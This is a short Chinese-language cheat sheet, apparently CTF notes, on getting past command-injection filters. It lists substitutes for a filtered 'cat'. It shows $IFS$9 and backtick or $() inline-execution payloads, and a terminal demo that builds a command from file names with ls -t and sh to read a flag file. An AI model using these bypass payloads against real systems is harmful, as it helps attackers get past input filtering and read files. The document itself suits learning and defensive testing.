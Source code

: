 

---



# cat被过滤

> more:一页一页的显示档案内容
> less:与 more 类似
> head:查看头几行
> tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
> tail:查看尾几行
> nl：显示的时候，顺便输出行号
> od:以二进制的方式读取档案内容
> vi:一种编辑器，这个也可以查看
> vim:一种编辑器，这个也可以查看
> sort:可以查看
> uniq:可以查看
> file -f:报错出具体内容



# 括号被过滤

![](http://img.npfs06.top/20210225161206.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



---



# 内敛执行

> cat$IFS$9\`ls\`
>
> cat$IFS$9$(ls)

(内联，就是将``或$()内命令的输出作为输入执行)



---

# 利用ls -t和>以及换行符绕过长度限制执行命令(文件构造绕过)

```
root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found
```
